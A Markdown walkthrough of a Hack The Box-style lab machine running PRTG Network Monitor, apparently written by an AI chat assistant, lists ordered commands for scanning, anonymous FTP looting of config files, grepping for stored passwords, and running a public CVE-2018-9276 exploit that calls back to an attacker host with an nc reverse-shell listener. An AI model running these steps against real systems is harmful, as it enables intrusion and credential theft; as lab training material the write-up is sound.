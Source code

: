 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🧰 Tools Used

- `nmap`
- `ftp`
- `wget`
- `grep`
- Web browser (for accessing PRTG Network Monitor login)
- Exploit from GitHub: [A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276)
- Python3 (to run the CVE-2018-9276 exploit)

---

## 💻 Commands (In Order)

### 🔍 Recon
```bash
sudo nmap -A 10.10.10.152 -p-
```

### 📂 [FTP](FTP.md) Enumeration
```bash
ftp 10.10.10.152
# Login as anonymous
# Navigate and find user.txt
```

### ⚠️ [SMB](SMB.md) Enumeration Attempt
```bash
# Attempted but failed without credentials
```

### 🌐 [Web Enumeration](HTTP)
```text
# Visit http://10.10.10.152 and observe PRTG login page
# Try default creds: prtgadmin:prtgadmin (fails)
```

### 🔍 Find Stored PRTG Credentials
```bash
# Go back to FTP and look under:
ftp> cd /ProgramData/Paessler
ftp> ls

# Exit FTP and download recursively:
wget -r ftp://10.10.10.152/ProgramData/Paessler
```

### 🔎 Search Downloaded Configs for Passwords
```bash
grep -r -l 'password' PRTG\ Network\ Monitor 2>/dev/null
# Find PRTG Configuration.old.bak
```

### 🧠 Critical Thinking: Try Common Variation
```text
# Use password: PrTg@dmin2019
# Login successfully to PRTG web interface
```

### 📡 Exploitation: CVE-2018-9276
```bash
# Clone or download exploit:
git clone https://github.com/A1vinSmith/CVE-2018-9276.git
cd CVE-2018-9276

# Run the exploit script (Python 3):
python3 exploit.py -t 10.10.10.152 -u prtgadmin -p 'PrTg@dmin2019' -l 10.10.14.X -P 4444

# On attacker box, setup listener:
nc -lvnp 4444
```

---

Let me know if you want this turned into a Markdown template or a printable cheatsheet! 🛠️📄
